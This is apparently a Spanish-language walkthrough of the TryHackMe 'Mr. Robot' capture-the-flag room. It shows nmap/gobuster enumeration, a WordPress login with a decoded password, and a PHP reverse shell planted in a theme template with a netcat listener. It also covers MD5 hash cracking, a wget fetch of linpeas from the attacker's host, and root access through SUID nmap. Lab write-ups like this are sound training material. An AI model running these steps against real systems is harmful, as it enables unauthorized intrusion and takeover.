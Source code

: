 ```yaml
---
title: 01. Mr. Robot
daft: "false"
tags:
  - THM
  - Room
cssclasses:
  - hbox
---
```

---
Created by: [@raf181_](https://github.com/raf181)  | Date: `18-11-2024`

---
### Enumeración
Empezamos con un escaneo básico de Nmap y verificamos el sitio principal:
```Bash
nmap -sC -sV $ip
```
![](99.%20Inserts/Pasted%20image%2020241118185442.png)
#### Escaneo de Nmap  
Podemos ver que esta máquina tiene solo 2 puertos abiertos:  
- **Puerto 22** — SSH (cerrado).  
- **Puertos 80, 443** — Página web que ejecuta un sitio de búsqueda.  
Al revisar el sitio principal, encontramos una pequeña introducción seguida de un conjunto de opciones para elegir:  
![](99.%20Inserts/Pasted%20image%2020241118185452.png)

Al seleccionar algunas opciones, somos redirigidos a una serie de videos e información sobre el programa *Mr. Robot*, pero no encontramos nada útil:  
![](99.%20Inserts/Pasted%20image%2020241118185459.png)
  
Nuestro escaneo con **Gobuster** recuperó varios directorios, algunos relacionados con Wordpress:  
```Bash
gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.*
```

![](99.%20Inserts/Pasted%20image%2020241118185506.png)

Tras explorar estos directorios, encontramos la primera clave en `robots.txt`:  
![](99.%20Inserts/Pasted%20image%2020241118185514.png)

Ahora podemos responder la pregunta “¿Cuál es la clave 1?” con esta primera bandera. Además, encontramos un archivo llamado `fsocity.dic`, que parece ser una lista de usuarios y contraseñas potenciales.  

Al continuar buscando en otros directorios, encontramos una cadena codificada en Base64 en el directorio de licencias:  
![](99.%20Inserts/Pasted%20image%2020241118185520.png)

Usamos [CyberChef](https://gchq.github.io/CyberChef/) para decodificar la cadena:  
![](99.%20Inserts/Pasted%20image%2020241118185528.png)

Obtenemos un par de credenciales que podrían ser útiles. Como vimos varios directorios de Wordpress, nos dirigimos a la página de inicio de sesión:  
![](99.%20Inserts/Pasted%20image%2020241118185538.png)
Probamos las credenciales obtenidas:  
![](99.%20Inserts/Pasted%20image%2020241118185549.png)  
¡Estamos dentro! Ahora podemos configurar una *shell inversa* para obtener acceso inicial al servidor. Descargamos el script de shell inversa de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y lo configuramos en la plantilla `404.php`:  

![](99.%20Inserts/Pasted%20image%2020241118185600.png)  

Después de esto, configuramos un **escuchador netcat** en el puerto especificado:  
```Bash
nc -lvno 4444
```

![](99.%20Inserts/Pasted%20image%2020241118185610.png)
Accedemos a la ubicación de la plantilla con la siguiente URL en el navegador:  

```
http://$ip/wp-includes/themes/TwentyFifteen/404.php
```  

Y obtenemos acceso a la shell en nuestra máquina:  
![](99.%20Inserts/Pasted%20image%2020241118185615.png)

Comprobamos nuestro usuario y el directorio de trabajo actual:  
![](99.%20Inserts/Pasted%20image%2020241118185621.png)
  
Estamos como el usuario `daemon` en el directorio raíz. Al revisar el directorio `/home`, encontramos permisos para acceder a un archivo con la segunda clave:  
![](99.%20Inserts/Pasted%20image%2020241118185626.png)
  
Podemos responder ahora a la pregunta “¿Cuál es la clave 2?” con esta segunda bandera.  

---

### Escalada de Privilegios  
Los pasos habituales para enumerar máquinas Linux incluyen: verificar permisos de `sudo`, buscar trabajos programados en `crontab`, o usar scripts como **linpeas** para buscar pistas.  


Dado que tenemos una shell limitada, la actualizamos a una interactiva usando este comando de Python:  
```
python -c 'import pty;pty.spawn("/bin/bash")'
```  

Comprobamos los permisos de `sudo` con `sudo -l`:  
![](99.%20Inserts/Pasted%20image%2020241118185639.png)

No tenemos permisos `sudo`. Revisamos el archivo de contraseña en el directorio del usuario `robot`:  
![](99.%20Inserts/Pasted%20image%2020241118185645.png)

Es un hash MD5. Usamos **John the Ripper** para descifrarlo:  
```Bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt password.raw-md5
```
![](99.%20Inserts/Pasted%20image%2020241118185653.png)

Obtenemos un nuevo conjunto de credenciales:  
```
usuario: robot  
contraseña: abcdefghijklmnopqrstuvwxyz
```

```Bash
sudo python3 -m http.server 80
```

![](99.%20Inserts/Pasted%20image%2020241118190546.png)
```Bash
wget http://${your_IP}/linepeas.sh
```
![](99.%20Inserts/Pasted%20image%2020241118190821.png)
No encontramos tareas programadas en `crontab`. Intentamos usar un script de **linpeas**, pero seguimos perdiendo nuestra shell al ejecutarlo.  

Optamos por buscar binarios **SUID** con el comando:  
```
find / -perm -4000 2>/dev/null
```  
![](99.%20Inserts/Pasted%20image%2020241118190718.png)
#### Encontrando binarios SUID  
Consultamos [Gtfobins](https://gtfobins.github.io/gtfobins/) y descubrimos que podemos explotar **nmap**:  
![](99.%20Inserts/Pasted%20image%2020241118190726.png)
 
Probamos la opción interactiva (`nmap --interactive`) para ejecutar una shell:  
![](99.%20Inserts/Pasted%20image%2020241118190741.png)
#### Explotando nmap  
¡Ahora somos `root`! Revisamos el directorio `/root` y encontramos nuestra tercera clave:  
![](99.%20Inserts/Pasted%20image%2020241118190746.png)
#### Tercera clave encontrada en `/root`  
Podemos responder la pregunta “¿Cuál es la clave 3?” con esta última bandera.  
